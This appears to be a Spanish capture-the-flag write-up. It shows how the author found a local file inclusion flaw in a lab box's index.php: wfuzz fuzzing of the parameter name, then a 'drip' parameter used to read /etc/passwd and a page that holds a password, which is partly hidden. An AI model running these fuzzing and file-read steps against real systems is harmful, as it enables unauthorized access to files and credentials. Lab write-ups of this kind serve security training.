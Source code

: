 
Voy a fuzzearlo, comprobando si le puedo meter un `traversal path` y así poder leer el directorio `/etc/dripispowerful.html` 

```php 
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hh 0 --filter "c=200 and l>8" http://192.168.0.43/index.php?FUZZ=/etc/passwd
```
He utilizado un filtro en el comando porque todas las peticiones tienen un Response 200 común, con 8 lines, salvo la del parámetro que me contestará 200 Ok y las líneas (si lo encuentra) del contenido de `/etc/passwd`, que no serán 8

```php 
=====================================================================
ID           Response   Lines    Word       Chars       Payload                               
=====================================================================

000172073:   200        57 L     107 W      3032 Ch     "drip"                                
000190642:   200        8 L      21 W       138 Ch      "Pink-Stripes" 
```

Ahí se ha visto que tiene 57 L. Me encuentra un parámetro `drip` que pruebo en el navegador: http://192.168.0.43/index.php?drip=/etc/passwd
Y me vuelca el contenido de ese fichero. Tengo un usuario

```php 
thugger:x:1001:1001:,,,:/home/thugger:/bin/bash sshd:x:126:65534::/run/sshd:/usr/sbin/nologin
```

Voy a comprobar que tiene el directorio `/etc/dripispowerful.html` utilizando el parámetro que acabo de encontrar. 
El código de ese `html` es:

```html
<!DOCTYPE html>
<html>
<body>
<style>
body {
background-image: url('drippin.jpg');
background-repeat: no-repeat;
}

@font-face {
    font-family: Segoe;
    src: url('segoeui.ttf');
}

.mainfo {
  text-align: center;
  border: 1px solid #000000;
  font-family: 'Segoe';
  padding: 5px;
  background-color: #ffffff;
  margin-top: 300px;
}

.emoji {
	width: 32px;
	}
</style>
password is:
im----------
</body>
</html>

<html>
<body>
```